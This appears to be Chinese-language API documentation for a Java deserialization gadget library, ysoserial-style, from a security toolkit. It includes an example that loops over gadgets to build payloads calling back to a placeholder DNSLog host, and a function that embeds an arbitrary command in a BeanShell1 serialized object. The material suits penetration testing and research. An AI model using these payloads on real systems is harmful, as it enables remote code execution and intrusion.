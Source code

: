 
#### 定义

`GetAllRuntimeExecGadget() []RuntimeExecGadget`

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `[]RuntimeExecGadget` |   |


### GetAllTemplatesGadget

#### 详细描述
GetAllTemplatesGadget 获取所有支持模板的Gadget，可用于爆破 gadget

Example:
```

	for _, gadget := range yso.GetAllTemplatesGadget() {
		domain := "xxx.dnslog" // dnslog 地址
		javaObj, err := gadget(yso.useDNSLogEvilClass(domain))
		if javaObj == nil || err != nil {
			continue
		}
		objBytes, err := yso.ToBytes(javaObj)
		if err != nil {
			continue
		}
		// 发送 objBytes
	}

```


#### 定义

`GetAllTemplatesGadget() []TemplatesGadget`

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `[]TemplatesGadget` |   |


### GetBeanShell1JavaObject

#### 详细描述
GetBeanShell1JavaObject 基于BeanShell1 序列化模板生成并返回一个Java对象。

它首先解析预定义的BeanShell1序列化模板，然后在解析出的第一个Java对象中替换预设的占位符为传入的命令字符串。

cmd：要传入Java对象的命令字符串。
